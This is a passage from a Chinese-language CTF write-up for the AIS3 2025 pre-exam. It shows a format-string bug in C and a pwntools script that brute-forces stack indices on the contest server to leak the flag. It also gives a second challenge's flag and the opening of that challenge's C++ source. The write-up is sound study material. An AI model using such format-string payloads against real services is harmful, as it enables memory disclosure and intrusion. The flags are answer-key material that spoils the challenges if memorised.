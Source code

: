 ```c

    char buffer[0x20] = {0};
    strcpy(buffer, "Format number : %3$");
    strcat(buffer, format);
    strcat(buffer, "d\n");
    printf(buffer, "Welcome", "~~~", number);

    return 0;
}
```

在第 43 行有 fmt 的問題，然後第 40~42 會發現可以控制 `%3$`、`d`，中間的字串，但會檢查是否是數字或是符號，因此不能直接改變 type，並且要跳脫出 `%3$` 的部分，不然會一直控不了參數，我這邊使用 `%3$2-` 直接跳脫出去，後面可以隨意指定第幾個值，接下來就是暴力找出 flag 所在的 index 值然後再轉回去字元就可以了，經過測試會在 20~59，script 如下

```python
from pwn import *
flag = ""
for i in range(20,59,1):
    r = remote('chals1.ais3.org', 50960)
    payload = f"%3$2-%{i}$"
    r.sendlineafter(b'? ', payload.encode())
    num = r.recvline().strip().split(b'%3$2-')[-1]
    flag += chr(int(num.decode()))
    r.close()
print(flag)
```

### MyGO schedule manager α (賽後解出)

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image32.png)

flag: `AIS3{MyGO!!!!!T0m0rin_1s_cut3@u_a2r_mAsr3r_0f_CP1usp1us_string_a2d_0verf10w!_alpha_v3r2on_have_br0ken...Go_p1ay_b3ta!}`

source code

```cpp
#include <iostream>
#include <vector>
#include <string>
#include <cstring> 
#include <cstdlib>

// g++ chal.cpp -o chal -no-pie -z relro -z now -s

struct schedule{
    char title[0x16];
    std::string content;
};

int SCHEDULE_STATUS = 0;
schedule* sched = nullptr;

void init_proc(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    std::cin.rdbuf()->pubsetbuf(nullptr, 0);
    std::cout.rdbuf()->pubsetbuf(nullptr, 0);
    
    puts("+======= alpha ========+");
    puts("| Band schedule system |");
    puts("+======================+");
    
}
```